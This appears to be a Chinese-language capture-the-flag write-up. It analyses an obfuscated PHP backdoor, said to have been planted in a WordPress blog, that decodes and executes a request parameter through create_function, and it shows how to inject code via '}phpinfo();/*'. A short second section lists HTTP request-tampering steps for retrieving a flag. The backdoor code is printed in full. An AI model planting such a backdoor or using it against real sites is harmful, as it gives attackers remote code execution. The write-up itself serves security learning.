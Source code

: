 # Raccoon Writeup

### PHP 后门分析

李大猫在他的 WordPress 博客里发现了被黑客植入的 PHP 后门，快帮他分析分析这个后门要怎么利用吧

```php
<?php 
	$z0 = $_REQUEST['sort'];
	$q1 = '';
	$c2 = "wt8m4;6eb39fxl*s5/.yj7(pod_h1kgzu0cqr)aniv2";
	$y3 = array(8,38,15,7,6,4,26,25,7,34,24,25,7);
	foreach($y3 as $h4){
		$q1.=$c2[$h4];  // q1 = base64_decode
	}
	$v5 = strrev("noi"."tcnuf"."_eta"."erc");  // create_function
	$j6 = $v5("",$q1($z0));  // j6 = create_function("",base64_decode(sort))
	$j6();	// j6() 是一个没有参数的匿名函数，
?>
```

create_function() 与 eval()  有同样的危险性，可以注入恶意代码。

```php
function fT($a) {
  echo "test".$a;
}

// 注入 $a = }phpinfo();/* 后：
function fT($a) {
  echo "test";}
  phpinfo();/*
}*/

create_function(args, code)  // The function arguments. The function code.
$j6() => function(args) {
	code
}
```

此题只需将 `}phpinfo();/*` 进行 base64 编码，再传进去就 OK 了

![1541723641637](C:\Users\LegnaVI\AppData\Roaming\Typora\typora-user-images\1541723641637.png)



### 抓包和改包

满足以下全部条件就能获得 flag

-   将 HTTP 请求方式修改为 POST
-   添加 HTTP 请求头“X-Give-Me-Flag”，值为 1
-   将包含浏览器标识的 HTTP 请求头的值修改为“Flag Browser 1.0”
-   将 Cookie 中“auth”的值修改为 117.29.42.247
-   POST 键名为“action”，值为“readflag”的数据

